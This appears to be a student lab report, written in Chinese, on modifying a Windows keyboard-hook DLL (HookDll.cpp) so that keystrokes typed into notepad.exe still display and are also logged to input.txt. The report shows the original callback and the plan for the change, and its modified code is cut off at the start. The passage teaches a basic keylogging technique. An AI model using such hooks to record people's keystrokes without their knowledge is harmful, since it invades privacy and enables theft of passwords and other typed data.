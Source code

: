 ![img](clip_image008.png)

# 实验三

## 实验内容:

修改第6章的HookDll.cpp，钩取对notepad的输入，使得：

1. 输入文本仍能正常显示；
2. 所有输入文本能够记录到input.txt文件中。

## 实验过程及结果:

实验思路：原HookDll.cpp的关键回调函数如下，主要更改代码以实现功能的地方用“**”标注：

```c++
LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam){
……
        if( !_stricmp(p + 1, "notepad.exe") )
                 return 1;
                 //**主要更改的逻辑在这里**
……
    // 当前进程不是notepad.exe，将消息传递给下一个钩子
        return CallNextHookEx(g_hHook, nCode, wParam, lParam);
}
```

`return 1;`的意思是：如果进程是`notepad.exe`，则不会将消息传递给下一个钩子，而实验要求消息可以正常显示出来，并且将所打印的消息记录到另一个文件夹中，则可以将问题分解为2个：

1. 将键盘输入的消息记录到某处，并且不会在这个时候return 1而是继续将消息传递给下一个钩子。解决方案：此回调函数的wParam参数包含了WPARAM类型的按键的虚键码，将此参数的内容转换成可读的字符类型即可。

2. 将保存着wParam内容的参数用文件读写的方式以”a”的方式写入，即可在一个文件夹内保存。解决方案：使用C的fopen函数或者Windows编程中的CreateFile函数

   > 参考来自：https://msdn.microsoft.com/en-us/library/windows/desktop/aa363858(v=vs.85).aspx

### 代码

```c++
#include "stdio.h"
#include "windows.h"
#include "tchar.h"
#include "ctype.h"

HINSTANCE g_hInstance = NULL;
HHOOK g_hHook = NULL;
HWND g_hWnd = NULL;

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD dwReason, LPVOID lpvReserved)
{
	switch (dwReason)
	{
	case DLL_PROCESS_ATTACH:
		g_hInstance = hinstDLL;
		break;

	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}

LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam)
{
	char szPath[MAX_PATH] = {
```
